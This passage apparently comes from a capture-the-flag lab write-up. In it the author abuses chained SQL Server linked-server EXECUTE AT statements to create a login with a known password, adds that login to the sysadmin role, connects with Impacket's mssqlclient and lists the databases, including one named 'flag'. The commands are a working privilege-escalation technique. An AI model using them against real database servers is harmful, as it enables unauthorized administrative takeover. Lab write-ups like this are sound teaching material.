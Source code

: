     server                           CREATE DDL EVENT NOTIFICATION                                  
    server                           CREATE TRACE EVENT NOTIFICATION                                
    server                           ALTER ANY EVENT NOTIFICATION                                   
    server                           ALTER SERVER STATE                                             
    server                           UNSAFE ASSEMBLY                                                
    server                           ALTER ANY SERVER AUDIT                                         
    server                           CREATE SERVER ROLE                                             
    server                           ALTER ANY SERVER ROLE                                          
    server                           ALTER ANY EVENT SESSION                                        
    server                           CONNECT ANY DATABASE                                           
    server                           IMPERSONATE ANY LOGIN                                          
    server                           SELECT ALL USER SECURABLES                                     
    server                           CONTROL SERVER 
    

### Add sa User

To make life easier, I’ll create a new sa user with a password I know so that
I don’t have to bounce everything.

    
    
    SQL> EXECUTE('EXECUTE(''CREATE LOGIN df WITH PASSWORD = ''''qwe123QWE!@#'''';'') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]
    SQL> EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''df'''', ''''sysadmin'''''') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]
    

Now I can connect with this new admin account:

    
    
    root@kali# mssqlclient.py 'df:qwe123QWE!@#@10.13.38.11'
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation
    
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed database context to 'master'.
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (140 7235) 
    [!] Press help for extra shell commands
    SQL> 
    

### New DB - Flag

As sa, I can now access another database, `flag`:

    
    
    SQL> SELECT name FROM master..sysdatabases;
    name
    ------------------------------   
    master
    tempdb
    model
    msdb
    POO_PUBLIC
    flag 
    